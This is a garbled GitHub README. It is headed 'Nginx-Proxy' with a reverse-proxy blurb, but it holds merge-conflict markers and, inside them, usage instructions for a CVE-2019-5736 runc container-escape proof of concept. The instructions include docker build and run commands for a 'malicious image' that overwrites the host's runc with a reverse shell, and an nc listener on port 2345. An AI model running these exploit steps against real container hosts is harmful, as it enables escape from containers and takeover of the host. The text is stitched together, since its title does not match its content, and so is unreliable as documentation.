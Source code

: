 # Nginx-Proxy
<<<<<<< HEAD

<h2 align="center">Nginx-Proxy</h2>

---
	## Why proxy ?
A reverse proxy intercepts incoming requests and directs them to the appropriate server. Not only does this speed up performance, it also strengthens server security.

Clone the repository:
```sh
$ git clone git@github.com:BBRathnayaka/RunC-CVE-2019-5736.git
```

### Exec POC
Overwrites runc with a simple program that prints a string.

Running the exec POC:
```sh
$ docker build -t cve-2019-5736:exec_POC ./RunC-CVE-2019-5736/exec_POC
$ docker run -d --rm --name poc_ctr cve-2019-5736:exec_POC
$ docker exec poc_ctr bash
```
### Malicious Image POC
Overwrites runc with a simple reverse shell bash script that connects to localhost:2345.

Listen for the reverse shell:
```sh
$ nc -nvlp 2345
```

From a different shell, run the malicious image POC:
```sh
$ docker build -t cve-2019-5736:malicious_image_POC ./RunC-CVE-2019-5736/malicious_image_POC
$ docker run --rm cve-2019-5736:malicious_image_POC
```
#### Reference
```
See [Twistlock Labs](https://www.twistlock.com/labs-blog/breaking-docker-via-runc-explaining-cve-2019-5736/ "Explaining CVE-2019-5763") for an explanation of CVE-2019-5736 and the POCs.

The malicious image POC is heavily based on [q3k’s POC](https://github.com/q3k/cve-2019-5736-poc), so all credit goes to him.
```


=======
>>>>>>> 6336d8e5c8c9804aaeb076ad1fbea1975a3cae6f
